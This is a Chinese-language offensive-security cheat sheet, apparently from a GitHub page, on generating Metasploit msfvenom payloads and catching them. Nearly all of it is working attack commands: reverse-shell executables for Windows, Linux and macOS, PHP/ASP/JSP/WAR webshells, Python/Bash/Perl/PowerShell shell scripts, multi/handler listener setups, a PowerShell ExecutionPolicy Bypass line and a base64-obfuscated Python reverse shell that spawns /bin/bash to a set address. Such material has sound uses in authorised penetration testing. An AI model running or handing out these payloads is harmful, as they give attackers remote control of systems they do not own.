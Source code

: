 ## 生成适用于`msf`的`payload`以及利用

主要记录一下常用的`payload`以及如何使用。

生成`payload`使用的工具是`MSFVenom`

在`kali`下可以使用如下命令列出`MSFVenom`可以生成的`payload`列表：

`msfvenom -l`



-----
生成二进制文件
关于二进制文件，主要介绍适用于Windows、linux、mac操作系统的payload生成与利用。


```shell
Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```

如何利用
针对这个部分就以`Windows`为例，使用上面的命令生成一个`exe`的`payload`

命令如下：

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f exe > shell.exe`

> 记得一定要把 lhost lport 都填全
-----

 
复制`shell.exe`到`Windows`机器，然后`kali`下开启`msf`使用如下命令监听`4444`端口：

```shell
msfconsole

use exploit/multi/handler

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
执行完之后在Windows下执行`shell.exe`，然后等结果




-----
 
在这里既然使用到了在Windows下执行应用程序，就大概盘点一下在Windows执行应用程序的几种方式：

双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
生成webshell脚本
在做web渗透的时候，经常会用到webshell，经常用的一句话用菜刀连接，如何使用MSFVenom生成一个可以用msf操作的webshell呢？

- PHP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

`cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

 
- ASP

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`

- JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp`

- WAR
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war`

---------------------
## 利用

下面以php为例做一下测试，使用以下命令生成一个webshell：

`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.88.128 LPORT=4444 -f raw > shell.php`

 
在kali上使用msf执行下面的命令，监听端口4444：
```shell
msfconsole

use exploit/multi/handler

set PAYLOAD php/meterpreter_reverse_tcp

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z

```
将`shell.php` 放在`web`目录下，使用 **浏览器访问**，或者使用以下命令执行：

`php shell.php`

------- 

## 脚本`shell`

关于使用脚本反弹`shell`的方式，主要以`python`、`bash`、`perl`为例。

- Python
`msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py`

- Bash
`msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh`

- Perl
`msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl`

- Powershell
`msfvenom -p windows/x64/meterpreter_reverse_http LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f psh > shell.ps1`

`powershell.exe -ExecutionPolicy Bypass -File shell.ps1`

----
## 使用
下面就以Python为例做一下测试，使用以下命令生成一个脚本：

`msfvenom -p cmd/unix/reverse_python LHOST=192.168.88.128 LPORT=4444 -f raw > shell.py`

 
在kali上使用msf执行下面的命令，监听端口4444：

```shell
msfconsole

use exploit/multi/handler

set PAYLOAD cmd/unix/reverse_python

set LHOST 192.168.88.128

set LPORT 4444

set ExitOnSession false

exploit -j -z
```
 
然后复制`shell.py`中的内容在linux命令行下执行，如下：

```python
python -c "exec('aW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zICAgICAgOyAgICBob3N0PSIxOTIuMTY4Ljg4LjEyOCIgICAgICA7ICAgIHBvcnQ9NDQ0NCAgICAgIDsgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkgICAgICA7ICAgIHMuY29ubmVjdCgoaG9zdCxwb3J0KSkgICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSwwKSAgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpLDEpICAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCksMikgICAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```
 



## 总结
`msfvenom`生成常用的反向连接的`shell`，`msfvenom`可以生成的`shell`很多